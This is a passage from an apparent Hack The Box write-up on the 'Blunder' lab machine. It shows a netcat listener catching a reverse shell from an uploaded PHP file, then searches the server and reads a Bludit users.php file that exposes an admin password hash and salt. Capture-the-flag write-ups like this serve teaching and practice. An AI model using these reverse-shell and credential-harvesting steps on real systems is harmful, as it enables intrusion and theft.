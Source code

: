 

Then with our netcat listener up we visit http://10.10.10.191/bl-content/tmp/reverse.php

```
hilbert@kali:~/HTB/Machines/Blunder$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.13.31] from (UNKNOWN) [10.10.10.191] 44438
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Whichever method you choose, we now have access as user **www-data**.

One of the things we could have done when looking around a bit more before jumping into brute forcing was explore the structure of the webpage after we learned Bludit was running on it. We would have seen that there was a databases directory

![databases](/assets/img/writeups/htb/boxes/blunder/blunder_databases.png)

We had to use a password to login, and those have to be stored somewhere, so this seems like a good place to look now that we have access. Using the find command and outputting errors to /dev/null so our screen isn't a mess of "Permission denied"'s we see

```
www-data@blunder:/home$ find / -name databases 2>/dev/null
/var/www/bludit-3.10.0a/bl-content/databases
/var/www/bludit-3.9.2/bl-content/databases
```

Interesting, it looks like a newer version of Bludit is also installed. Checking the 3.9.2 version first, if we look at **users.php** in the database directory, we see entries for an admin and fergus.

```
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Admin",
        "firstName": "Administrator",
        "lastName": "",
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
<...>
    },
    "fergus": {
        "firstName": "",
        "lastName": "",
        "nickname": "",
        "description": "",
```